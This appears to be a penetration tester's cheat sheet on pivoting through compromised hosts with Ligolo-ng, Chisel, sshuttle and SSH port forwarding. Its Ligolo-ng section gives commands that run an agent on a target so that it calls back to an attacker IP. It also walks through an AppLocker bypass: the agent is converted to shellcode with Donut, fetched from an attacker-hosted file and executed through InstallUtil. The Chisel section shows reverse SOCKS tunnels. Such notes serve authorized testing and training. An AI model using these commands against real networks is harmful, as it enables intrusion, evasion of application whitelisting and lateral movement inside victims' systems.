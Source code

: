
# Ligolo-ng

To begin using Ligolo-ng, download the latest release from GitHub, as the version available in the Kali repository may not function as expected.

**Download Link**: [Ligolo-ng Releases](https://github.com/nicocha30/ligolo-ng/releases)

## Setting Up the Proxy

To set up the proxy, execute the following command in your terminal:

```bash
# Run the proxy with self-signed certificate option
sudo ./proxy --selfcert
```

## Running the Agent on the Target System

After setting up the proxy, you will need to run the agent on the target system. You can download the agent from the same GitHub releases page.

**Agent Download Link**: [Ligolo-ng Releases](https://github.com/nicocha30/ligolo-ng/releases)

You can start the agent using the following commands. It is recommended to use `Start-Process` to avoid locking the console when running on Windows.

```powershell
# Using Start-Process to run the agent (preferred for console usage)
Start-Process -FilePath ".\agent.exe" -ArgumentList "--ignore-cert -connect 192.168.45.194:11601"

# Running normally if you are in a GUI environment
.\agent.exe -ignore-cert -connect 192.168.45.194:11601
```

## Configuring Tunneling

To configure tunneling with Ligolo-ng, follow these steps:

```bash
# Use "session" to select the connected agent
ligolo-ng » "session"

# Specify the required session 
Specify a session : "1" - NT AUTHORITY\SYSTEM@client02 - 192.168.122.200:63065 - a2d7a799-92e5-4853-ba79-02d702116f8d

# Specify the "autoroute"
[Agent : NT AUTHORITY\SYSTEM@client02] » "autoroute"

# Select the route to add
Select routes to add: 172.16.122.50/24
Create a new interface or use an existing one Create a new interface
INFO[0068] Generating a random interface name...        
INFO[0068] Creating a new suitablegenesis interface... 
INFO[0068] Using interface suitablegenesis, creating routes... 
INFO[0068] Route 172.16.122.50/24 created.              

# Start tunneling
Start the tunnel "Yes"
[Agent : NT AUTHORITY\SYSTEM@client02] » INFO[0070] Starting tunnel to NT AUTHORITY\SYSTEM@client02 (a2d7a799-92e5-4853-ba79-02d702116f8d) 
[Agent : NT AUTHORITY\SYSTEM@client02] » 
```

# Ligolo-ng - AppLocker Bypass

Executing a Ligolo agent on a Windows system with AppLocker enabled can be quite challenging. However, it is feasible to convert the Ligolo agent binary into shellcode using Donut, and then inject the shellcode into memory. This process involves abusing InstallUtil for execution to bypass AppLocker constraints.

### Steps to Bypass AppLocker

1. **Clone the Ligolo Repository**: Start by cloning the Ligolo repository to your local disk:

    ```bash
    git clone https://github.com/nicocha30/ligolo-ng.git
    ```

2. **Modify the Agent Source Code**: Edit the agent's source code to hardcode the attacking system's IP address and specify to ignore certificates. Open the main.go file using a text editor:

    ```bash
    nano /ligolo-ng/cmd/agent/main.go
    ```

    ![image](https://github.com/user-attachments/assets/09d05271-16f5-416d-81d1-c2dd7668c242)

3. **Compile the New Agent**: After modifying the source code, compile the new agent with the following command:

    ```bash
    GOOS=windows go build -o agent.exe /ligolo-ng/cmd/agent/main.go
    ```

4. **Generate Shellcode Using Donut**: Utilize Donut to create shellcode from the newly compiled agent.exe:

    ```bash
    ./donut -a 2 -f 1 -o /home/kali/ts_client/agent.bin -i /home/kali/Downloads/ligolo-ng/agent.exe -e 1
    ```

5. **Host the Shellcode**: It’s generally advisable to host the shellcode on the attacking system. The agent.exe binary will typically be between 9-50MB of raw shellcode, which may cause IDEs to crash, so it's better to host the raw binary file.

6. **Modify and Compile the C# Template**: Use the provided C# template to run the shellcode. The template can be found [here](https://github.com/The-Viper-One/OSEP-Notes/blob/main/Pivoting/ligolo_shellcode_runner_InstallUtil.cs). Ensure to change the URL on line 43 to point to your own IP address and the path to the donut shellcode agent.bin file.

7. **Execute on the AppLocker System**: Compile the C# binary and execute it on the AppLocker system using the methods described [here](https://github.com/The-Viper-One/OSEP-Notes/tree/main/Application_Whitelisting/Bypass_Execution_Methods/InstallUtil):

    ```powershell
    # Execute EXE (x64)
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U "LigoloShellcode.exe"

    # Execute EXE (x86)
    C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U "LigoloShellcode.exe"
    ```

    ![image](https://github.com/user-attachments/assets/fd8adea2-5dde-4c2d-842e-5328d0298abe)


# Chisel 

### Attacking Machine
```bash
./chisel server -p <Port> --reverse &
./chisel server -p 1337 --reverse &
```

### On Target Machine
```bash
./chisel client <Attacking-IP>:<Port> R:socks &
./chisel client 10.50.46.8:1337 R:socks &
```

 Then use Proxychains to scan internal networks from the compromised host.

# SSHuttle

### Authenticate with password
```bash
sshuttle -r <User>@<Target-IP> <Target-Subnet> -x <Target-IP>
sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5
```

### Authenticate with key
```bash
sshuttle -r <User>@<IP> --ssh-cmd "<Command>" <Target Subnet> -x <Exclude IP>
sshuttle -r root@10.200.48.200 --ssh-cmd "ssh -i id_rsa" 10.200.48.0/24 -x 10.200.48.200
```

# SSH

### Forward RDP from internal host to Attacking Machine on port 1337.
```bash
ssh -L <LocalHost>:<Port>:<IP-To-Forward-From>:<Port> <User>@<IP>
ssh -L 127.0.0.1:1337:10.200.48.150:3389 root@10.200.48.200 -i id_rsa
```

### Forward remote port 80 to local port 80
```bash
ssh atena@10.10.72.69 -L 80:127.0.0.1:80
ssh <User>@<IP> -L <Local-Port>127.0.0.1<Remote-Port>
```

### Dynamic SSH Port Forwarding
```bash
ssh -i <id_rsa> <User>@<IP> -D <Proxychains-Port>
ssh -i id_rsa errorcauser@10.10.254.201 -D 1080
```
 
